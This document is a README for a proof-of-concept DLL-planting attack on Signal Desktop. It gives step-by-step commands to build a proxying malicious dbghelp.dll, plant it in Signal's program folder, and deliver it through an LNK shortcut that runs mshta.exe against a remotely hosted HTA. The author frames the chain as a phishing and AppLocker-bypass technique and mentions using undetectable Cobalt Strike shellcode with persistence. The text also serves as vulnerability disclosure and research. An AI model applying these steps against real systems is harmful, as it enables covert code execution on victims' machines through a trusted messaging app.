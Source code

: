 ## EDIT:
2024/05/08 --> It's been brought to my attention that "cryptbase.dll" no longer works, so in short, Signal said this wasn't a vulnerability yet patched something that wasn't a vulnerability. I've updated this repo to use dbghelp.dll instead. Github's find and replace function is very useful. I've also added the gen_def.py script for your ease of use, huge shouts to Tothi for that.

# Summary 
Multiple instances of DLL planting exist, and a threat actor can plant DLLs that don't exist but are referenced by the application. 

# Steps to Replicate
1. First, create a malicious DLL. Signal references many non-existent DLLs, but several of the DLLs are native to Windows. For this example, I used `dbghelp.dll`. You can use [this repository](https://github.com/tothi/dll-hijack-by-proxying) to build the DLL, but I'll simplify their steps for you, by also including the definition generator in this repo:
   * Clone the repo.
   * Modify the `dbghelp.c` file in this repo as you see fit - note that this is nothing more than the payload.
   * Copy `C:\Windows\System32\dbghelp.dll` into the `dll-hijack-by-proxying` directory as `dbghelp_original.dll`.
   * Create the exports using the `gen_def.py` script

    ```
    python3 gen_def.py dbghelp_orig.dll > dbghelp.def
    ```
   
   * Run the following command if you're compiling for x64 Windows:

    ```
    x86_64-w64-mingw32-gcc -shared -o dbghelp.dll dbghelp.c dbghelp.def -s
    ```

2. Now you've got your malicious DLL. Copy `dbghelp.dll` and `dbghelp_orig.dll` into the `%LocalAppData\Programs\signal-desktop` folder.
3. Run Signal, and the code will execute. Here's a cute calculator PoC example:
   
    ![Calculator PoC](https://github.com/johnjhacking/Signal-DLL-Hijacking/blob/main/1.png?raw=true)

# Turning up the Heat
If you're like me, simply popping the calculator isn't enough. Let's chain this as an LNK -> HTA -> Your Payload. You might be wondering what the purpose of building this type of chain serves. Simple: you can chain this as a bypass against something like AppLocker or a default deny tool, leveraging the trust of the product as a safe messenger. In addition, an LNK pretext will allow you to get the user to download the DLLs into the appropriate folder.

1. Create an LNK shortcut, and change the target to the following:

    ```
    C:\Windows\System32\mshta.exe https://yourdomain/poc.hta
    ```

    It should look something like this:
   
    ![LNK PoC](https://github.com/johnjhacking/Signal-DLL-Hijacking/blob/main/2.png?raw=true)

2. Host your `dbghelp.dll` and `dbghelp_orig.dll` files.
3. Modify the code in the `poc.hta` file within this GitHub repo to utilize the URLs of your hosted DLL files.
4. Host `poc.hta` on your domain.
5. Run the LNK shortcut and watch as the DLL files are dropped into the `%LocalAppData\Programs\signal-desktop` folder.
6. Now, when the victim runs Signal, your malicious DLL will run. Phishing ftw.
7. You can use whatever you want, but for a quick test, I hosted an HTA server to see if my HTA would drop the DLLs that execute an HTA, mostly for the nonsense of the chain, so in my case, the chain was LNK -> HTA drops DLLs -> User runs Signal -> DLL executes remote HTA. In a live scenario, I'd swap the HTA payload out with a FUD DLL payload, built with compiled Cobalt Strike or Brute Rat shellcode with persistence, depending on the EDR i'm up against.
   
    ![RCE Proof](https://github.com/johnjhacking/Signal-DLL-Hijacking/blob/main/3.png?raw=true)
